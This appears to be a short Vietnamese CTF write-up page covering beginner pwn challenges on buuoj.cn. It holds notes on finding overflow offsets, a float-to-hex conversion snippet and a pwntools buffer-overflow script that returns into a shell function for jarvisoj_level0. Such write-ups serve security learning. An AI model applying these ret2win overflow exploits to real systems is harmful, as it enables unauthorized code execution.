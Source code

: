 # test_your_nc (1)  
test  
[test_your_nc](https://buuoj.cn/challenges#test_your_nc)


# rip(2)  
chạy chương trình ta thấy leak địa chỉ  
đó là địa chỉ thực thi hàm chứ shell  
dùng pattern để tìm offset là 72  
ta nhập 72 kí tự và địa chỉ leak + 1 để thực thi hàm shell  
![image](https://user-images.githubusercontent.com/111769169/218854646-28492223-adec-4c75-a52a-c8b0884ace11.png)  
[link](https://buuoj.cn/challenges#rip)
dạng ret2win (tấn công rip)


# 4  
chương trình OW biến để thoả yếu cầu = 11.28125  
ta dùng công cụ  
_  
import struct  
v1 = 11.28125  
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  
_  
để chuyển số thập phân sang hex  
![image](https://user-images.githubusercontent.com/111769169/218855333-00dc6b65-2757-4c27-aa78-67efb0dcfe6e.png)
[link](https://buuoj.cn/challenges#warmup_csaw_2016)


# 5  
# jarvisoj_level0 (6)
___
> tấn công saved rip  
<details>
<summary>script</summary>
  
```python
from pwn import *  

exe = ELF('./6')  
p = process("./6")  

pay = b'a' * 136 + p64(0x0000000000400597)  
input()  
p.sendafter('Hello, World\n', pay)  
p.interactive()  
```
</details>

